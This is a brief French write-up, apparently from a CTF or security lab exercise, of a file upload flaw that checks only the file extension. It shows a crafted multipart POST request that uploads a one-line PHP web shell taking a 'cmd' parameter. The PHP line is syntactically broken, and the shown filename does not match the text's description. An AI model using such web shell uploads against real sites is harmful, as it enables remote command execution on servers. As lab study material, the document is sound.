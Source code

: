 <p>Sur la page ?page=upload# on peut uploader un fichier. Une vérification est faite sur l'extension du fichier, mais pas sur son mimeType ou son contenu. On peut envoyer un fichier avec du code tant qu'il a une extension en .jpg</p>
<p>J'ai ouvert le moniteur de réseau du navigateur, et j'ai uploadé un fichier jpeg valide. J'ai inspecté la requête post, et je l'ai modifiée. J'ai simplement changé l'extension du fichier dans le corps de la requête pour qu'il soit en php, et j'ai remplacé le contenu binaire de l'image pas </p>
<p>le corps de la requête : </p>
<p>
-----------------------------388438716520295718423503181162
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
-----------------------------388438716520295718423503181162
Content-Disposition: form-data; name="uploaded"; filename="JPEG_example_flower.jphp"
Content-Type: image/jpeg

<?php system($_GET(['cmd']); ?>
-----------------------------388438716520295718423503181162
Content-Disposition: form-data; name="Upload"

Upload
-----------------------------388438716520295718423503181162--
</p>
<p>le fichier que j'ai utilisé comme base est à côté de ce fichier</p>
